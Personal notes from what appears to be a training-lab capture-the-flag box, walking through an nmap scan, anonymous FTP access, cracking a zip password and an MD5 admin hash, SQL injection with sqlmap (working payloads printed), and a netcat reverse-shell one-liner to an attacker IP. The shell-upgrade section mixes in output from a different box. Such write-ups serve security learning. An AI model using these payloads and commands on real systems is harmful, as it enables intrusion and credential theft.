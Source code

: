 -----
## IPS
victim=10.129.255.178


---
## Initial Scan 

- found that the machine is using ftp,http and ssh
```shell
nmap -sC -sV 10.129.255.178
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-04 14:36 EDT
Nmap scan report for 10.129.255.178
Host is up (0.035s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.17
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0ee58077534b00b9165b259569527a4 (RSA)
|   256 ac6e81188922d7a7417d814f1bb8b251 (ECDSA)
|_  256 425bc321dfefa20bc95e03421d69d028 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.13 seconds
```
 
---
## Foothold 

- this version of  FTP can use anonymous /no_password inorder to login. tried this and  manageed to login, found a backup.zip
```shell
ftp anonymous@10.129.255.178 
Connected to 10.129.255.178.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> 


```

- Used zip2john to crack the hash for the zipfile
```shell
 zip2john backup.zip >zip.hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                        
```

- I then used the main john the ripper script to pass in the hashes
```shell
john 
-wordlist=/usr/share/wordlists/rockyou.txt hashes
```

- Found the password  using john
```shell
┌──(root㉿kali)-[/home/kali/Desktop]
└─# john -wordlist=/usr/share/wordlists/rockyou.txt zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)
                                                        
┌──(root㉿kali)-[/home/kali/Desktop]
└─# john --show zip                                    
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left

```

- I then looked at the files in the backup and found the admin username and pasword that leads to a dashboard page
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

- Cracked the passworrd using an online md5 code cracker 
- ![[Pasted image 20230404202802.png]]
On the site I tried to use sql inject using the 'OR '1 ='1 and this returned all the cars

- Used burp to get the req and put it into a file
![[Pasted image 20230404210302.png]]
- I then fed that into SQLMap in order to find the vunribilities
```shell
sqlmap -r ./new.req


[16:04:06] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)

[16:04:16] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[16:04:16] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'                                                   
[16:04:26] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable           
[16:04:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                                            

sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:                             
---                                                                                                                 
Parameter: search (GET)                                                                                             
    Type: boolean-based blind                                                                                       
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)                                       
    Payload: search=a' AND (SELECT (CASE WHEN (1219=1219) THEN NULL ELSE CAST((CHR(110)||CHR(122)||CHR(115)||CHR(88)) AS NUMERIC) END)) IS NULL-- SazX                                                                                  
                                                                                                                    
    Type: error-based                                                                                               
    Title: PostgreSQL AND error-based - WHERE or HAVING clause                                                      
    Payload: search=a' AND 5041=CAST((CHR(113)||CHR(113)||CHR(118)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (5041=5041) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(118)||CHR(107)||CHR(113)) AS NUMERIC)-- UOEe                
                                                                                                                    
    Type: stacked queries                                                                                           
    Title: PostgreSQL > 8.1 stacked queries (comment)                                                               
    Payload: search=a';SELECT PG_SLEEP(5)--                                                                         
                                                                                                                    
    Type: time-based blind                                                                                          
    Title: PostgreSQL > 8.1 AND time-based blind                                                                    
    Payload: search=a' AND 7914=(SELECT 7914 FROM PG_SLEEP(5))-- aUwp                                               
---                                                                                                                 
[16:04:26] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[16:04:27] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/vaccine.htb'

[*] ending @ 16:04:27 /2023-04-04/

```
- As we can get an OS shell I decided to add my own shell so I could create a reverse shell 
```shell
# on the victim machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.43 4444 >/tmp/f

#gives the following outpout on the kali machine
c -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.235.123] 33392
sh: 0: can't access tty; job control turned off
$        
```
- decided to upgrade the shell so we can do auto tab
```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
postgres@vaccine:/var/lib/postgresql/11/main$ 


www-data@included:/var$ ^Z
zsh: suspended  nc -lvnp 1337
                                        
stty raw -echo; fg;           




[12]    continued  nc -lvnp 1337
          export TERM=xterm
www-data@included:/var$ 

```


----
## Tags
#Web
#Network
#VulnerabilityAssessment
#Databases
#Injection
#CustomApplications
#Protocols
#SourceCodeAnalysis
#Apache
#PostgreSQL
#FTP
#PHP
#Reconnaissance
#PasswordCracking
#SUDOExploitation
#SQLInjection
#RemoteCodeExecution
#ClearTextCredentials
#Anonymous/GuestAccess

----
## Resource

Payload for vi to access root- https://gtfobins.github.io/gtfobins/vi/#shell